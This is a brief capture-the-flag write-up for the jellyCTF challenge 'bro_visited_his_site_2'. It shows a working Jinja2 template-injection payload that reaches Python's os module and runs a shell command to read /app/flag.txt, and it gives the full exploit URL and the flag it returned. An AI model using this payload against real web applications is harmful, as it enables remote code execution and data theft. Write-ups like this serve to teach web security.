 # bro_visited_his_site_2
Writeup author: **lolmenow**

Point count: 460pts

Difficulty: easy

Provided files: N/A (same as first version)

Url: https://bro-visited-his-site.jellyc.tf/

Description: ok, but can you get /app/flag.txt
# 

This is exactly the same vulnerability as the first edition of this challenge, please read that before continuing here.

Using the same payload as the last challenge, we can just modify it to read /app/flag.txt: `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat /app/flag.txt").read()}}{%endif%}{% endfor %}`

Once done, we are presented with:

` jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}pilled jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}maxxer`

And there is our flag!

Final flag: `jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}`

Final payload: `https://bro-visited-his-site.jellyc.tf/response?word={% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat /app/flag.txt").read()}}{%endif%}{% endfor %}`

